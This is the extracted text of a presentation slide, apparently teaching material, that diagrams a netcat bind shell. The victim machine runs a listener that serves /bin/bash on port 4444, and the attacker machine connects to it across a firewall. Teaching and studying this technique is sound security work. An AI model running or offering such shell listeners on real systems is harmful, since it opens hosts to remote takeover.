

Attacker Machine

nc VICTIM 4444
Firewall

Victim Machine

nc –nlvp 4444
–e /bin/bash